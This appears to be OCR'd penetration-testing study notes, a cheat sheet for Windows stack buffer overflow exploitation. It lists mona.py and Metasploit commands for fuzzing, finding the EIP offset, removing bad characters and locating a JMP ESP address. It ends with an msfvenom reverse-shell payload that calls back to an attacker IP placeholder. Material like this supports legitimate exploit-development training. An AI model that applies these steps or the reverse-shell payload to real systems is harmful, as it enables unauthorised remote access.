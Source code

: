 Buffer overflow
================================================================
- Set workingfolder	
    `!mona config -set workingfolder c:\mona\%p`
- Fuzzing	
    `Using fuzzer.py`
- create pattern on bytes crashes	
    `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [bytes]`
- findmsp on bytes crashes	
    `!mona findmsp -distance [bytes_range]`

- check for eip offset value

- set value offset and retn value	

- Make sure eip same with retn value	

- check bad character	
    `!mona bytearray -b "\x00"`

- generate a string of bad character	
    `Using badchars.py`

- compare bad character 	
    `!mona compare -f bytearray.bin -a [esp address]`

- check list possible bad chars	

- generate new bad chars with possible chars we found until unmodified with esp address	

- find jump point choose the top one	
    `!mona jmp -r esp -cpb  "\x00[possible bad chars]"`

update retn with new address from jump point	
    `retn = reverse address ("\xaf\x11\x50\x62")`

- create msfvenom payload 	
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "[badchars]" -f c`

- add padding	
    `"\x90" * 16`
